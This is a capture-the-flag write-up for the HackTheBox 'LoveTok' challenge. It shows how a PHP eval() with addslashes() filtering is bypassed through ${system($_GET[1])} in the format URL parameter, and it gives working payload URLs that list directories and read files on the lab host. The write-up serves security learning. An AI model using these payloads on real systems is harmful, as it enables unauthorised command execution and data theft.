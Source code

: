 # Command Injection via URL parameter in LoveTok

## Issue Description
In some cases, due to insufficient validation in the URL, a command injection vulnerability may occur. By bypassing validation methods that can be found in predictable or open-source projects' source code, a command can be injected.

In this report, I will be explaining a HackTheBox challenge with a vulnerability of command injection via URL parameter.

## Steps to Reproduce
The following steps indicate a proof of concept outlined in seven(7) steps to reproduce and execute the issue.

**Step 1:**
Run `openvpn` command to connect to the HTB (HackTheBox) VPN.

**Step 2:**
Start the LoveTok instance from [HTB LoveTok](https://app.hackthebox.com/challenges/lovetok).

**Step 3:**
Download the necessary files via “Download Files”.

**Step 4:**
Review the source codes of the program within the downloaded files.

**Step 5:**
Observe that it has an insufficient validation in format parameter in TimeController.php file.

**Step 6:**
Change the URL to 
```
http://[HTBHost]/?format=${system($_GET[1])}&1=ls+/ 
```
to see the files in the programs directory. Copy the flag files name.

**Step 7:**
Change the URL to 
```
http://[HTBHost]/?format=${system($_GET[1])}&1=cat+/[file-name-from-step-6]
``` 
to display the flag.

## Proof of Concept
Download your openvpn file from [HTB Labs section](https://app.hackthebox.com/). And run this file in Kali Linux Terminal by command
```
openvpn [your-openvpn-file]
```
Start the instance and download files in .zip format from the buttons seen in Figure 1.1.

| ![Start instance and Download Files](https://user-images.githubusercontent.com/112284234/227717110-754fee99-fe08-438f-9efa-7b83dfb4150f.png) | 
|:--:| 
| *Figure 1.1* |

Navigate to the host IP, in my case it is 138.68.165.141:31107. The host look like in Figure 1.2.

| ![Host IP, How the host looks like](https://user-images.githubusercontent.com/112284234/227718022-8ca48cb2-81cf-4e5b-961c-b8d1a976f336.png) |
|:--:| 
| *Figure 1.2* |

Click the only button which says **Nah, that doesn't work for me. Try again!** to see what happens. It will add an parameter to the URL which is **Host/?format=r** Note that there is a format parameter with method **GET** and continue.

Browse to the downloaded file. Unzip it with `unzip LoveTok.zip`, provide the zip password which is given in the lab: `hackthebox`. When we unzip the file, it will have a structure like in the Figure 1.3.

| ![Downloaded files' structure](https://user-images.githubusercontent.com/112284234/227718486-57b8f38c-7e2d-4e60-b995-695ce62b9770.png) |
|:--:|
| *Figure 1.3* |

Review the `TimeController.php` and `TimeModel.php` source codes.

**TimeController.php** looks like this:
```php
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : 'r';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```
It gets the format parameter here, and sends to the TimeModal class without any sanitization. If we examine the **TimeModal.php** file, it looks like this:
```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->format = addslashes($format);

        [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
        $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
    }

    public function getTime()
    {
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
        return isset($time) ? $time : 'Something went terribly wrong';
    }
}
```

In here, it gets the **format** variable from a constructor variable and sanitizes it with a method `addslashes()`. When we search for `addslashes()` in the web, I found [Aaron's write-up](https://swordandcircuitboard.com/php-addslashes-command-injection-bypass/) to bypass this method. In Aaron's write-up, he says,

> `addslashes()` adds backslashes before single-quotes, double-quotes, backslashes and NUL. This list leaves open the values for variable replacement `${}`. This allows us to write an input that will not be touched by `addslashes()` and then later when it is evaluated it will be replaced with a dangerous command injection input.

And he adds,

>**Step 1**<br><br>
First we'll make our "safe" string to get past addslashes().<br><br>
`${system($_GET[1])}`<br><br>
When evaluated this will call the system method with the value of the query param "1".<br><br>
**Step 2**<br><br>
Now we'll need to set the value of that query param.<br><br>
`1=ls+`/<br><br>
This is simply our command url encoded. Since we used a 'space' character we'd need to replace that with a '+'.

So his final query, and that query that perfectly works for this site,

>Final Query<br><br>
So our final full query will be:<br><br>
`GET /index.php?input=${system($_GET[1])}&1=ls+/`

If we add this query to the `format` parameter in LoveTok, we will see a output like Figure 1.4.

| ![ls command executed](https://user-images.githubusercontent.com/112284234/227719687-3d144f83-4c02-4c6f-a30b-068c147f7f20.png) |
|:--:|
| Figure 1.4 |

And the `ls` command executed in the target machine. If we look at the files and directories on the target machine we see that there is a file called `flag0Bmtl`. To read this file, change the `1` parameter to `cat+/flag0Bmtl`, and the output should look like in the Figure 1.5.

| ![flag found](https://user-images.githubusercontent.com/112284234/227719901-e7ac81cf-641c-48b9-add9-ef92ccdde02a.png) |
|:--:|
| Figure 1.5 |

And we found the flag.

## Impact
This vulnerability will affect the target machine because we can inject and execute commands on the target machine. As represented, we can display every file they have in the machine. Unless some commands are blocked by the target machine, all commands can be executed, and all operations can be performed on the target machine.
